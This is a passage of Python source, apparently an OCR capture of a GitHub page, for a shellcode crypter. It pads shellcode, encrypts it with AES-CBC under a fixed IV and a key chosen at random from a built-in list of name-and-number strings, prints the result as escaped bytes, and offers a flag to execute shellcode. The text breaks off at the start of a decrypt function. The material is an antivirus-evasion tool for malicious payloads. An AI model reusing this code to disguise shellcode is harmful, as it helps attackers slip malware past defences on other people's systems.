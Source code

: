 ```python
                    action="store_true")
parser.add_argument("-x", "--execute", help="execute shellcode",
                    action="store_true")
args = parser.parse_args()
inp = args.inp
inp = inp.replace("\\x","")
shellcode = inp.decode("hex")

#setting up some globals
iv = "1337" * 4

#this is where we generate our key space, a little over 1.4 million keys
nameList = ["Kate Libby_", "Ramon Sanch", "Paul Cook__", "Eugene Belf", "Dade Murphy", "Joey Pardel", "Em Goldstei", "Elliot Alde", "Darlene____", "Tyrell Well", "White Rose_", "Falken_____", "David______", "Nick Hathaw", "Chen Lien__", "Stanley____"]

numGen = list(range(10000,100000))

keyList = []

for x in nameList:
	for y in numGen:
		keyList += [x + str(y)]

def encrypt():
	try:
		global shellcode
		global iv
		global keyList
		key = random.choice(keyList)

		#Let's get our shellcode up to 32 bytes (has to be multiple of 16)

		shellPad = 32 - len(shellcode)

		shellPadBytes = b'\xff' * shellPad

		shellcode = shellPadBytes + shellcode

		#This is where we do our actual encryption!
		aes = AES.new(key, AES.MODE_CBC, iv)
		data = shellcode
		encd = aes.encrypt(data)

		#Let's get it into printable format!
		output = "" 

		for x in bytearray(encd):
			output += "\\x"
			output += '%02x'% x

		output = output.replace("\\x", r'\\x')

		print("\n[+] Encrypted Shellcode: " + output)

	except:
		print "Something went wrong with the encryption process."


def decrypt():
	try:
		global shellcode
		global iv
```